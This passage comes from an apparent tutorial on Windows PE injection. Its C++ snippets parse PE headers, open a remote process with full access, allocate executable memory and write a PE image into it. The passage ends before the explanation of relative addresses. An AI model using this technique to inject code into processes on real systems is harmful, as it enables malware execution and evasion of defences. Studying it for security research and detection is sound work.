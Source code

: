 ```c++
PIMAGE_NT_HEADERS64 sourceNTHeaders64 = (PIMAGE_NT_HEADERS64)((DWORD_PTR)sourceImageAddress + sourceDOSHeader->e_lfanew);
```

Once we have a pointer to the PE Header (or IMAGE_NT_HEADERS64), we can access the **SizeOfImage** field: 

```c++
DWORD sourceImageSize = sourceNTHeaders64->OptionalHeader.SizeOfImage;
```

The next three steps should already be like a mantra for you if you have been following the series of posts x). 

Once we have bounded the image we want to inject, we have to get a Handle from the remote process to be able to interact with it.

```c++
HANDLE hRemote = OpenProcess(PROCESS_ALL_ACCESS, false, pid);
if (hRemote == NULL){
    printf("\n%s Cannot get the handle to the process\n", err);
    return EXIT_FAILURE;
}
```

With the Handle obtained, we reserve memory in the remote process, the size of the memory to reserve will be the size of the image.

```c++
LPVOID bAddress = VirtualAllocEx(hRemote, NULL, sourceImageSize, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);

if(bAddress == NULL){
    printf("%s Cannot allocate memory for the shellcode\n", err);
    return EXIT_FAILURE;
}
```

We write the image of the PE in the remote process from the address obtained in the previous step.

```c++
if(WriteProcessMemory(hRemote, bAddress, sourceImageAddress, sourceNTHeaders64->OptionalHeader.SizeOfImage, NULL) == 0){
    printf("%s Cannot write on memory, error %s\n", err, GetLastError());
    return EXIT_FAILURE;
}
```

One mistake that could occur at this point is to create a remote thread and run from the memory address we injected the PE into. Unfortunately, this would most likely cause the process to crash or not work at all. 

This is due to something that we have already discussed and is fundamental in this type of technique, the **RVA**.

Earlier we said that **all PE memory addresses are relative** and are used to calculate the addresses of the different PE resources by summing a base address to them. Let's see an example:
